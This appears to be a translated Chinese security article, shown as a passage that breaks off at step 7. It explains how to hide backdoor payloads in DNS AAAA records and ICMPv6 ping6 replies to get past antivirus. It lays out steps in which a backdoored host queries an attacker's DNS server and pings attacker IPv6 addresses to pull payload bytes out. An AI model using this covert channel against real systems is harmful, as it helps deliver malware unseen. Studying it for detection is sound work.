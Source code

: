 **<br>**

**0x00 前言**

在本文中，我想解释如何在DNS流量中利用IPv6地址（AAAA）记录传输Payload。在我之前的[文章](https://www.peerlyst.com/posts/bypassing-anti-viruses-with-transfer-backdoor-payloads-by-dns-traffic-damon-mohammadbagher)中，我解释了如何利用DNS和PTR记录，现在我们将讨论AAAA记录。

本文分为两部分:

**第一部分**：DNS AAAA记录和ICMPv6

**第二部分**：DNS和AAAA记录（大的DNS AAAA记录响应）



**0x01 DNS AAAA记录和ICMPv6**

IPv6地址对于传输Payload非常有用，让我解释下如何完成这个例子。

举个例子，我们有一个IPv6地址如下：

fe80:1111:0034:abcd:ef00:ab11:ccf1:0000

这个例子中，我们能将xxxx部分用于我们的Payload。

fe80:1111:xxxx:xxxx:xxxx:xxxx:xxxx:wxyz

我认为我们有两种方式将IPv6地址用于我们的Payload，第一个是我们使用DNS和AAAA记录，第二个是使用这些IPv6地址和DNS AAAA记录，也是Ping6的ICMPv6流量。

ICMPv6和Ping6：这个例子中，你能通过虚假的IPv6和注入的Payload来改变攻击者的IPv6地址，然后从后门系统中，你能通过循环Ping6得到这些IPv6地址（ICMPv6流量）。

因此我们有下面这些东西：

（后门系统）ip地址 = {192.168.1.120}

（攻击者系统）ip地址 = {192.168.1.111

,fe80:1111:0034:abcd:ef00:ab11:ccf1:0000}

(攻击者系统)DNS名 = test.domain.com，和安装的DNS服务{dnsmasq或dnsspoof}

DNS AAAA记录和ICMPv6步骤：

步骤1：（攻击者DNS服务器）record0=&gt;

fe80:1111:0034:abcd:ef00:ab11:ccf1:0000 AAAA test.domain.com

步骤2：（后门系统）==&gt;nslookup test.server.com 192.168.1.111

步骤3：（后门系统）循环Ping6=&gt;（攻击者系统fe80:1111:0034:abcd:ef00:ab11:ccf1:0000）

步骤4：（后门系统）通过Ping6响应在IPv6地址中转储出注入的Payload，转储这些部分｛0034:abcd:ef00:ab11:ccf1｝

步骤5：（攻击者DNS服务器）record0改为新的test.domain.com

步骤6：（攻击者DNS服务器）record0=&gt;

fe80:1111:cf89:abff:000e:09b1:33b1:0001 AAAA test.domain.com

步骤6-1：（攻击者系统）通过ifconfig添加或改变NIC IPv6地址{新的IPv6地址：fe80:1111:cf89:abff:000e:09b1:33b1:0001}

步骤6-2：关于步骤3的ping6的响应=超时或不可达（错误），这个时间是获取新的IPv6地址的标志，或者你的流量被某些东西检测到并阻止了。

步骤7：（后门系统）=&gt;nslookup test.server.com 192.168.1.111
